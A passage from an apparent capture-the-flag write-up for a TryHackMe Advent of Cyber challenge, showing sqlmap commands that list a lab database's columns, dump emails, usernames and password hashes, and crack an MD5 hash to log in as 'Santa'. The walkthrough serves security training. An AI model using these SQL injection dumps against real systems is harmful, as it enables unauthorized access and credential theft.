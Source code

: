 Looks like we found a list of tables. For this time being, we are only interested in the last table. As for the next step, enumerate the content inside the table.

```
sqlmap -r r.txt -D <Censored Db name> -T <Censored table name> --column --batch
```

![column](/assets/images/THM/2020-08-15-advent-of-cyber/day23/5.png)

Let's pull some data from the column. You are required to use --dump.

```
sqlmap -r r.txt -D <Censored DB name> -T <Censored table name> -C email,username,password  --batch --dump
```

![cred](/assets/images/THM/2020-08-15-advent-of-cyber/day23/6.png)

We just found Santa's email and hashed password from the database. I strongly recommend you to skip the hash cracking part. Simply copy Santa's MD5 hash and crack it using the [online tool](https://crackstation.net/). Now, we are able to login to Santa's social account.
